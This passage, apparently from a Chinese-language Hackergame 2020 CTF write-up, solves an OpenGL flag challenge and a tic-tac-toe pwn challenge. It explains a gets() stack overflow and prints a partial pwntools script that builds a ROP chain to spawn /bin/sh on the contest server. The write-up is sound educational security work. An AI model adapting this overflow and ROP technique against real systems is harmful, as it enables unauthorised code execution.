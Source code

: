 然后借助画图工具翻转一下看到`flag`为`flag{glGraphicsHappy(233);}`

<img src="/images/hackergame2020-5.png" alt="opengl">

# 生活在博弈树上

这个题目就是`pwn`题，审计源码可以发现不安全函数`gets`。

## 始终热爱大地

直接`IDA`一把梭打开程序

<img src="/images/hackergame2020-6.1.png" alt="love">

我们发现`gets`读取数据并存放于`v12`，最后判断输赢的变量存放于`v15`

而它们具体在哪里？

<img src="/images/hackergame2020-6.2.png" alt="love">

向上翻可以看到`v12`存放于`rbp-90h`处，`v15`存放于`rbp-1h`处，所以我们可以直接构造一个超长字符串使得`rbp-1h`被覆盖为`0x1`

## 升上天空

题目的意思很明显了，`main`函数没有开启`canary`，我们要覆盖掉`rbp`来`getshell`

注意到程序是静态链接的，直接使用`ROPgadget`工具获取`ROP`链来构造`syscall`

执行命令：

> ROPgadget --binary tictactoe --ropchain

我们把`step - 5`中构造的`ROPchain`拿来修改一下，加上前面`0x90h`的填充

```python
#!/usr/bin/env python3
# -*- coding: UTF-8 -*-

from pwn import *
from struct import pack

#target = process('./tictactoe')
target = remote('202.38.93.111', 10141)

# Padding goes here
#p = ''

p = ('1' * 143).encode('ascii')
# 第一问
p += b'\x01'
p += ('1' * 8).encode('ascii')

# 第二问
p += pack('<Q', 0x0000000000407228)  # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0)  # @ .data
p += pack('<Q', 0x000000000043e52c)  # pop rax ; ret
p += '/bin//sh'.encode('ascii')
p += pack('<Q', 0x000000000046d7b1)  # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228)  # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8)  # @ .data + 8
p += pack('<Q', 0x0000000000439070)  # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1)  # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6)  # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0)  # @ .data
p += pack('<Q', 0x0000000000407228)  # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8)  # @ .data + 8
```